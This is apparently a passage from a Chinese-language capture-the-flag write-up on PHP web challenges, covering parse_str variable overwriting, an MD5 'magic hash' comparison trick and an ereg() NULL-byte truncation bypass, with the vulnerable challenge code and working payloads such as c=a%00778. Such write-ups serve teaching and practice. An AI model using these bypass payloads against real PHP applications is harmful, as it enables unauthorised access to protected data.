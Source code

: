 例子：

```php
<?php
$str = "first=value&arr[]=foo+bar&arr[]=baz";
// 推荐用法
parse_str($str, $output);
echo $output['first'];  // value
echo $output['arr'][0]; // foo bar
echo $output['arr'][1]; // baz
```

**payload**

```
GET : v3=flag
POST: v1=flag=327a6c4304ad5938eaf0efb6cc3e53dc
```

```
GET : v3=240610708  //利用科学计数法绕过
POST: v1=flag=0
```



## web108

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
include("flag.php");

if (ereg ("^[a-zA-Z]+$", $_GET['c'])===FALSE)  {
    die('error');

}
//只有36d的人才能看到flag
if(intval(strrev($_GET['c']))==0x36d){
    echo $flag;
}

?>
```

知识点：

**ereg()函数用指定的模式搜索一个字符串中指定的字符串,如果匹配成功返回true,否则,则返回false。搜索字 母的字符是大小写敏感的。 ereg函数存在NULL截断漏洞，导致了正则过滤被绕过,所以可以使用%00截断正则匹配**

函数介绍

```php
strrev()  字符串反转
intval()  获取变量的整数值
12
payload:c=a%00778
```
